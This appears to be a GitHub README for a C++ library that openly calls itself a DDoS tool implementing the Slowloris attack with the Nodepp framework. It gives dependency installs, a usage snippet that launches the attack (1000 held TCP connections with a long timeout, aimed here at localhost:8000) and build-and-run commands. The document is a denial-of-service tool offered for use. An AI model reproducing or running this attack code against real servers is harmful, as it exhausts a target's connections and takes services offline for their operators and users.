 # NODEPP-SLORY

A DDoS Service Slowloris algorithm using Nodepp.

## Dependencies

- **Openssl**
    - 🪟: `pacman -S mingw-w64-ucrt-x86_64-openssl`
    - 🐧: `sudo apt install libssl-dev`

# Usage

```cpp
#include <nodepp/nodepp.h>
#include <slory.h>

using namespace nodepp;

void onMain(){

    slory_config_t args;
    args.host     = "localhost";
    args.IPPROTO  = IPPROTO_TCP;
    args.timeout  = 10000;
    args.maxconn  = 1000;
    args.port     = 8000;

    auto slory = slory::tcp( args );
    console::log("slowlory started");

    slory.onProgress([=]( uint a, uint b ){
        console::log( "->", a, b );
    });

}
```

# Build & Run

- 🪟: `g++ -o main main.cpp -I ./include -lssl -lcrypto -lws2_32 ; ./main`
- 🐧: `g++ -o main main.cpp -I ./include -lssl -lcrypto ; ./main`
